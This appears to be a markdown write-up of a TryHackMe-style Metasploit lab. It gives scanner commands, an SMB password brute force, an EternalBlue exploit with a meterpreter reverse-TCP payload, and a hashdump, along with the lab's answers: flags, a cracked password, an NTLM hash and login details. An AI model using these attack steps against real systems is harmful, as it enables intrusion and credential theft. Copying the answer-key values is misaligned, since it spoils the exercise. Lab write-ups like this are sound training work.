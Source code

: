     - set up handler accordingly with payload, lhost, lport of payload, same values
- **Meterpreter** is a powerful tool that offers a lot of easy to use features during the post-exploitation phase.
  
## Questions
### Task 2
- How many ports are open on the target system?
  ```
  nmap <target_ip>
  ```
  > 5
- Using the relevant scanner, what NetBIOS name can you see?
  ```
  use auxiliary/scanner/netbios/nbname
  set rhosts <target_ip>
  run
  ```
  > ACME IT SUPPORT
- What is running on port 8000?
  ```
  use auxiliary/scanner/http/http_version
  set rhosts <target_ip>
  set lport 8000
  run
  ```
  > webfs/1.21
- What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task.
  ```
  use auxiliary/scanner/smb/smb_login
  set rhosts <target_ip>
  set pass_file <pass_file>
  set smbuser penny
  run
  ```
  > leo1234
### Task 5
- Exploit one of the critical vulnerabilities on the target VM
  ```
  use exploit/windows/smb/ms17_010_eternalblue
  set payload windows/x64/meterpreter/reverse_tcp
  set rhosts <target_ip>
  run
  ```
- What is the content of the flag.txt file?
  ```
  shell
  cd ../..
  dir /b/s flag.txt
  type C:\Users\Jon\Documents\flag.txt
  ```
  > THM-5455554845
- What is the NTLM hash of the password of the user "pirate"?
  ```
  hashdump
  ```
  > 8ce9a3ebd1647fcc5e04025019f4b875
### Task 6
- Launch the VM attached to this task. The username is murphy, and the password is 1q2w3e4r. You can connect via SSH or launch this machine in the browser. Once on the terminal, type "sudo su" to get a root shell, this will make things easier.
  ```
  ssh murphy@<target_ip> 
  ```